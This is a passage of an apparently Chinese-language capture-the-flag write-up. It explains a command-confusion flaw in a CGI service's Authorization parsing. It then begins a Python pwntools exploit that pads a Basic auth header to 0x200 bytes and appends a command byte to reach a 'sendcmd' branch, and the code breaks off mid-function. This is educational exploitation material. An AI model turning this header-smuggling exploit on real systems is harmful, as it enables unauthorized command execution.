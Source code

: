 最后考虑怎样构造payload：由于我们修改了要执行的`cmd`，因此分支会相较我们的原动作有差异。
由于`cmd`非`LOGIN`和`REGISTER`，最终会走 **reset_password** 的逻辑，
因此在我们的Authorization中需要3个`:`才能成功执行`sendcmd`。

![confusion](assets/cmdConfusion.png)

## EXPLOIT

```python
from pwn import *
import requests
import base64
from enum import Enum
BLUE_TEXT = lambda x: f'\x1b[34m{x}\x1b[0m'

class Commands(Enum):
    LOGIN =          1
    UPDATE_PASSWD =  2
    REGISTER =       3
    NEW_SESSION =    4
    DELETE_SESSION = 5
    IPERF3_SERVER =  6
    PING =           7
    TRACEROUTE =     8
    IPERF3_CLIENT =  9
    ACME_APPLY =    10
    ACME_RENEW =    11
    ACME_REVOKE =   12

def payload(lo: int):
    global sh, session_id
    if lo:
        host, port = '127.0.0.1', 80
    else:
        host, port = '61.147.171.105', 65519

    def new_session() -> str:
        url = f"http://{host}:{port}/cgi-bin/gen_enc"
        response = requests.get(url)
        return response.text[12:-14] # extract id from response
    
    def arbcmd(arg1: str, arg2: str, cmd: Commands):
        global session_id
        # last field can be extremely long
        auth = f"{arg1}:{arg2}:randstuff:".ljust(0x200).encode() + p8(cmd.value)
        headers = {
            'Authorization': f"Basic {base64.b64encode(auth).decode()}",
            'Content-Type': 'application/x-www-form-urlencoded'
        }
```